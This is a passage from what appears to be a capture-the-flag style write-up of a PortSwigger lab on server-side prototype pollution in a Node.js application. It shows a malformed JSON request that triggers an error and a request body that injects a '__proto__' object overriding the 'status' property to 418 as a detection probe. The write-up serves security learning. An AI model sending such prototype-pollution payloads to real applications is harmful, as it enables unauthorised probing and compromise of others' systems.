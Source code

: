 > Note:
>  
> You must choose a status code in the `400`-`599` range. Otherwise, Node defaults to a `500` status regardless, as you can see from the second highlighted line, so you won't know whether you've polluted the prototype or not.

Armed with above information, we can **pollute the `status` property to identify the web application is vulnerable to server-side prototype pollution**.

#### Find a way to trigger an error response and take note of the default status code

**To do so, we can try to provide an invalid syntax of JSON data in `/my-account/change-address`:**
```json
{
    "address_line_1":"Wiener HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "sessionId":"3CDlQIVpMaczwnZCiGUZdpKd4MyD5BZW",
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-7/images/Pasted%20image%2020230222165006.png)

As you can see, we've successfully triggered an error response, and the default status code is **400**.

#### Try polluting the prototype with your own `status` property

**In here, I'll use "418 I'm tea pot" HTTP status code:**
```json
{
    "address_line_1":"Wiener HQ",
    "address_line_2":"One Wiener Way",
    "city":"Wienerville",
    "postcode":"BU1 1RP",
    "country":"UK",
    "sessionId":"3CDlQIVpMaczwnZCiGUZdpKd4MyD5BZW",
    "__proto__": {
        "status": 418
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-7/images/Pasted%20image%2020230222165244.png)

#### Trigger the error response again and check whether we've successfully overridden the status code

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-7/images/Pasted%20image%2020230222165319.png)
